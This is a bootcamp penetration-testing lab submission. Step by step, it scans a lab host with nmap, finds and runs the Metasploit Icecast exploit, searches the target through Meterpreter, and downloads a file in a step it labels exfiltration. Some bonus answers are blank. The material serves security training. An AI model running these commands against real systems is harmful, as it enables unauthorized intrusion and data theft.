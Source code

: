 ### Submission
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](/17-Pentration-Testing-2/screenshots/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchsploit](/17-Pentration-Testing-2/screenshots/searchsploit_ice.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```

![msfconsole](/17-Pentration-Testing-2/screenshots/msfconsole.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 
![icecast-search](/17-Pentration-Testing-2/screenshots/icecast-search.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```

![msf-use](/17-Pentration-Testing-2/screenshots/msf_use.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```

![rhost](/17-Pentration-Testing-2/screenshots/rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```

![run](/17-Pentration-Testing-2/screenshots/run.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile*.txt```

![secret](/17-Pentration-Testing-2/screenshots/search_file.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe*.txt```

![recipe](/17-Pentration-Testing-2/screenshots/recipe.png)
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: ```download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'```

![recipe](/17-Pentration-Testing-2/screenshots/download.png)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:
 
     
B. Open a Meterpreter shell. 
 
  > Answer: 
 
C. Run the command that displays the target's computer system information:

   > Answer: 



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.